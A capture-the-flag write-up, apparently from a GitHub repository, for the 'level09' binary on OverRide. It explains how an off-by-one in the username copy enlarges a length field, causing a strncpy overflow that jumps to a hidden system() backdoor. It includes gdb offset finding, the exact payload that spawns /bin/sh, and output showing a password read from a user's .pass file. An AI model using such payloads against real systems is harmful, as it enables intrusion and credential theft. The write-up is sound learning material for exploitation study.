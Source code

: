 
When executing this program, we are prompted to enter a username and then a message

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: xavier
>: Welcome, xavier
>: Msg @Unix-Dude
>>: hola
>: Msg sent!
```

By observing the code, we can see a function called secret_backdoor that is not called. This function allows us to execute whatever we want using the system() function.

```c
long long secret_backdoor()
{
    char v0;  // [bp-0x88]

    fgets(&v0, 128, stdin);
    return system(&v0);
}
```

So, we can deduce that we will need to modify the execution flow by modifying the RIP register at a certain point.

We can see that the program uses a message struct which stores the username, the message, and the message size.

```c
struct	s_message
{
	char	message[140];
	char	username[40];
	int		len;
}   t_message;
```

We can also see that in the set_username function, during the loop which writes the user's name into the struct, instead of looping 40 times, we will loop 41 times due to the <= 40 condition.

```c
for (v2 = 0; v2 <= 40 && (&v1)[v2]; v2 += 1)
    {
        a0->username[v2] = (&v1)[v2];
    }
```

This will allow us to overflow the len attribute of our struct and write the first high bit of this latter.
This vulnerability will allow us to overflow in set_msg at the level of strncpy which will write to a0->len of the message that we will write using fgets into a0->message.

```c
fgets(&v1, 0x400, stdin);
strncpy(a0->message, &v1, a0->len);
```

This means that we know what our payload will look like.

```
(python -c 'print("a"*40 + "\xff" + "\n" + "a" * OFFSET + "secret_backdoor") + "\n" + "/bin/sh"'; cat) | ./level09
```


To find the offset, we use a pattern generator. https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
```diff
(gdb) run < <(python -c 'print("a"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag -|6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4|Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')
```
```
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
```

```diff
- 6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
```
We can see that this string starts from 200 of the pattern.

offset = 200


Now let's find the address of secret_backdoor.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
secret_backdoor = 0x55555555488c

(python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09

```
level09@OverRide:~$ (python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
